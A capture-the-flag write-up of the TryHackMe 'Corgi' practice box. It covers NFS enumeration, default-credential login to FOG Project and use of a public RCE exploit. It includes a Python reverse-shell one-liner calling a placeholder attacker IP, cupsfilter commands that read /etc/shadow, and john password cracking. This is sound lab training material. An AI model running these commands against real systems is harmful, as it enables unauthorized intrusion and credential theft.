 # Corgi
Try this OSCP level practice box by JSON SEC at https://tryhackme.com/room/corgi

## nmap TCP scan
The first thing we do on any pen test is a nmap scan. I went with a TCP-SYN scan with default scripts and all ports

`nmap -sS -sC -p- <TARGET-IP>`
![nmap scan pt1](:/images/nmap_1.png)
![nmap scan pt2](:/6d2ef1ea1b724079bc96d0ffbaf5ea91)

## NFS
from this scan we can see that nfs is installed on the server, lets use `showmount` to see if there are any shares we can mount to our system.
![0ab7abcb4db170d7b31f2975f2ed6614.png](:/4d1e42f9ef814017937dfdaf642ea77a)
looks like there are 2 shares we can mount, lets use mount one of them and have a look around
![4d2d1a230846255da7bb365383f206fd.png](:/c1b020b306344a64857a4e28e94067fa)

## FOG Project
after looking around we found this fog file, after some quick google searching I found this documentation for something called 'FOG project'
![3a5dd118150843ea5f6dc38ee38187a6.png](:/c69aa96cc3324422993f48f586ece162)
and going to `<TARGET-IP>/fog` takes us to a login page
![b8cda2f2b49703c47ffcf5d6b2506673.png](:/cd80521c0b524a6a9e199593d15c4cdf)
Now that we have a login page we need some credentials. before we try anything else lets try and find some default creds on google.
![405ec8ea462164f98ff212cdf85fbe9d.png](:/44fcff83142b4daa948d32de06b5594a)
Lucky for us these default credentials worked and we are now logged in to the FOG dashboard
![20a6f58f0cf7228d53ac48c6c1099ae2.png](:/fdfb33226906456d8d4e28859258b659)

## RCE Exploit
now that we have access to a dashboard lets have a look on exploit.db to see if there are any known exploits for the version of FOG that is installed.
![9adba4d0a01811ddbb176e6ea4d601bc.png](:/4bddb8cb41be4c4c85de6e3b072f60d6)
Lucky Break, there is a RCE exploit here https://www.exploit-db.com/exploits/49811
![760649555dc6b666380a05fb6ebe3b7c.png](:/4c2efc74c4914041a377b3c79a97ebba)
lets try and use this RCE exploit and test to see if we can run commands on the server before we try and gain access through a remote shell.
![ac4efb628133910c86d4f130be274811.png](:/bbc4273adbb9495394032d4b98eec13f)
![34ba939c344bca30df8712d58a48b718.png](:/9e687c6301fe4f27b964e866ffc5cffa)
running the hostname command to test if file upload worked
![eae0e0362befad53ed6e5af6a9a15efc.png](:/15c757a0818b4c1985fd32f8ff723bb9)

## Reverse Shell & Privilege Escalation
now that we have RCE lets get our reverse shell up and running

`python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER-IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
![f5d6aa9578469b24a8dbfdc92a7a7a33.png](:/7875820ea9a844848efe45fffd6dd8b9)
and stabilise the shell
![5d28a637abdc6b3765504b121d090e5f.png](:/a4ea6801f77f4c2f939fce11f774875c)

now that we have a working and stable reverse shell, we need to be able to read the /etc/shadow and /etc/passwd files.
First lets find out what binaries we have access to with `find`

`find / -perm /4000 2>/dev/null`
![9cae3ff8a5c41702a93e850a06854b1a.png](:/ce9d248e64994e5bae8bca10223a5ac7)
After having a search on https://gtfobins.github.io/, we found that the cupsfilter binary has a File read vulnerability, and we can use this to read the /etc/shadow and /etc/passwd files

![6c6f7fc33238b59402c03ef5a1298a1a.png](:/1a511ebff2c6419bbf24d0ebd2363812)
`cupsfilter -i application/octet-stream -m application/octet-stream /etc/passwd`
![074eefb955ebd5e2fc02d0547f78d118.png](:/f574c0d04fdb4988805293edeceba32c)
![38db1ecb8b19d27b8cdb80706e3a2be0.png](:/ee80be10975b4eb98b9b9c0757c90bd6)
`cupsfilter -i application/octet-stream -m application/octet-stream /etc/shadow`
![8a437ccfebc38cae72c4f6f485eeb2b2.png](:/244c3a55448147d0a64d75858f7d7231)
![1a0515583d685b785daf91ff9df8f7a9.png](:/a6d11a56fd2149159d1a9e1276abfa60)
lets copy the contents of the files onto our host computer, then use unshadow and johntheripper to get the passwords

`unshadow passwd.txt shadow.txt`
`john --wordlist=/usr/share/wordlists/rockyou.txt`
![9a13e4b0a843d245da892d1f72c3c487.png](:/57b3d7e5c84e485fa8af2fe25fe3ead9)

so now we have a login, lets `su` into the new user and see what permissions they have.sudo 
![4bb2d2dccab7ce872a5a8b260f41d897.png](:/1143b3cf111a483a89c5e01af6644212)

so it looks like they can run any command, lets try to get into the root account and find the user and root hashes

![8c471db405b89841fbffcda1ae7b4c95.png](:/d1382a6454204a378a43b74af7b25337)
![4d6ee4505811590c7fe4fad20744d06e.png](:/57476ef107614746bf0ebe01e218a7df)
